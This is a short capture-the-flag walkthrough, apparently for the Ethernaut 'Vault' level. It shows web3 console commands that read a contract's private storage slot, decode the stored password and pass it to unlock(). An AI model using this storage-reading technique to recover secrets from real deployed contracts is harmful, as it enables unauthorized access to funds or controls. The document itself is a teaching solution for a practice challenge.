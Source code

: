 # Vault

**HINT:** Your going to want to check the Storage of the instance address using web3 in the console
<details>
<summary>Answer</summary>
<p>

```js
await web3.eth.getStorageAt('Contract_Instance', 2, (err,res)=>{console.log(res)});
```
This results in a hex
```
"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
```
This is the password but you can see what it says by doing:
```js
await web3.utils.hexToAscii('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```
Giving you:
```
"A very strong secret password :)"
```
Toss the password into the unlock function 
```js
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```
Then click submit
</p>
</details>
